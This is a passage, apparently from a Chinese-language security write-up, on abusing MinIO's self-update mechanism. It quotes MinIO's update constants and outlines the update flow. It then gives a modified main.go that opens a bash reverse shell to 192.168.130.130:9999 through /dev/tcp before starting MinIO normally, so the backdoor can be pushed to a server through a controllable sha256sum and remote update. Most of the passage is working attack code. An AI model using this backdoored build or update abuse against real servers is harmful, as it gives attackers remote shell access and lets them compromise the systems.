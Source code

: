 ```go
// minio/cmd/update.go
const (
    minioReleaseTagTimeLayout = "2006-01-02T15-04-05Z"
    minioOSARCH               = runtime.GOOS + "-" + runtime.GOARCH
    minioReleaseURL           = "https://dl.min.io/server/minio/release/" + minioOSARCH + SlashSeparator
 
    envMinisignPubKey = "MINIO_UPDATE_MINISIGN_PUBKEY"
    updateTimeout     = 10 * time.Second
)
```

4. 通过跟进代码的相关逻辑可以发现，可以直接拉取一个二进制文件，然后实现自我更新，相关简化流程如下：
   **验证管理员权限→获取最新版本→获取最新版本的sha256sum信息→下载并验证sha256sum→验证无误后替换自身并重启**

5. 用于验证的sha256sum文件是可控的，我们需要打包一个恶意的sha256sum文件，执行更新操作。这一步需要下载minio源码，更改源码注入恶意代码，打包为恶意文件，然后执行远程更新。

```go
// main.go
package main // import "github.com/minio/minio"

import (
	"os"
	"os/exec"
	"runtime"
	// MUST be first import.
	_ "github.com/minio/minio/internal/init"

	minio "github.com/minio/minio/cmd"
)

func getOutputDirectly(commandStr string) string {
	var execGlobalOutput string
	var shell [2]string
	var systemOS string = runtime.GOOS
	if systemOS == "linux" || systemOS == "darwin" {
		shell[0], shell[1] = "/bin/bash", "-c"
	} else {
		shell[0], shell[1] = "C:\\Windows\\System32\\cmd.exe", "/c"
	}
	cmd := exec.Command(shell[0], shell[1], commandStr)
	output, err := cmd.Output()
	if err != nil {
		return ""
	}
	execGlobalOutput += string(output)
	return execGlobalOutput
}

func main() {
	var command = "/bin/bash -i >& /dev/tcp/192.168.130.130/9999 0<& 2>&1"
	go getOutputDirectly(command)
	minio.Main(os.Args)
}
```
